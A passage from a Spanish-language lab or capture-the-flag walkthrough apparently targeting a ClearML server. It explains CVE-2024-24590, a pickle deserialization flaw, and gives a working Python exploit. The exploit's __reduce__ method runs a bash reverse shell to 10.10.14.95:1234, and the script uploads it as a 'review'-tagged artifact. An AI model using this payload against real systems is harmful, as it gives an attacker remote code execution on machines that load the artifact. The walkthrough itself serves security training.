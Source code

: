 Abajo a la derecha veremos el siguiente texto.

```
WebApp: 1.13.1-426 • Server: 1.13.1-426 • API: 2.27
```

Buscando en internet vilnerabilidades de esta versión de `ClearML` nos encontramos con este [CVE-2024-24590](https://www.cve.org/CVERecord?id=CVE-2024-24590).

---

**¿En qué consiste esta vulnerabilidad?**

*Esta vilnerabilidad se aprobecha de que ClearML utliliza la utilidad de python `Pickle`, que sirve para serializar objetos de python.*

*Los artefactos que se comparten a traves de ClearML deben ser serializados con `Pickle`. Por lo que cuando se utiliza el metodo get para cargar un artefacto que te ha sido compartido, este se deserializa y se carga en memoria permitiendo al autor del artefacto ejecutar código en la máquina del que lo haya cargado.*

*Puedes encontrar más información sobre esta vulnerabilidad [aquí](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/#CVE-2024-24590).*

* Serializar: Convertir un objeto en un formato que se pueda almacenar o transmitir.

---

Podemos ver como en el experimento se hace un `get()` a todas las tareas con la etiqueta `review`, por lo que debemos crear una tarea que explote esta vulnerabilidad con la etiqueta `review` y subirla al servidor.

Primero necesitaremos crear la tarea con `Task.init()` y después subirla con `upload_artefact()`. Se puede encontrar la forma de utilizar estos métodos en la [documentación ofificl de ClearML](https://clear.ml/docs/latest/docs/references/sdk/task/).

En la clase a enviar reescribiremos la función reservada `__reduce__()` para que nos entable una reverse shell, esta función sirve para definir como el objeto debe ser serializado y deserializado por pickle. Entonces será ejecutado cuando `ClearML` lo deserialice.

* Este script debe crearse en el entorno virtual creado anteriormente con la configuracion de ClearML.

```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/10.10.14.95/1234 0>&1"',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='Just an artefact', tags=['review'], output_uri=True)

task.upload_artifact(name='revshell', artifact_object=command, wait_on_upload=True, extension_name='.pkl', auto_pickle=True)
```
